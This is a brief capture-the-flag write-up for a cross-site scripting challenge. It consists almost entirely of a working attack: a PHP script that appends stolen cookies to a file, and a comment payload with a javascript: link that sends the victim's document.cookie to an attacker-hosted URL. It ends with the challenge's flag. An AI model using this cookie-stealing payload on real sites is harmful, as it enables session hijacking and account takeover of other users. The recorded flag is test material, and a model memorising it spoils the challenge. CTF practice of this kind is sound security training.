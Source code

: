 Site is vulnerable to XSS

Host the following PHP script on any free hosting service

<?php
$cookie = $HTTP_GET_VARS["cookie"];
$steal = fopen("cookiefile.txt", "a");
fwrite($steal, $cookie ."\n");
fclose($steal);
?>

Post this comment after changing "my.domain/cookie.php" to wherever your php file is hosted

<a href="javascript:location='http://my.domain/cookie.php?cookie='+document.cookie" onclick="">click here</a>

The flag will now appear in cookiefile.txt

flag=CTF{I_haz_c47n1p.nom.nom.nom}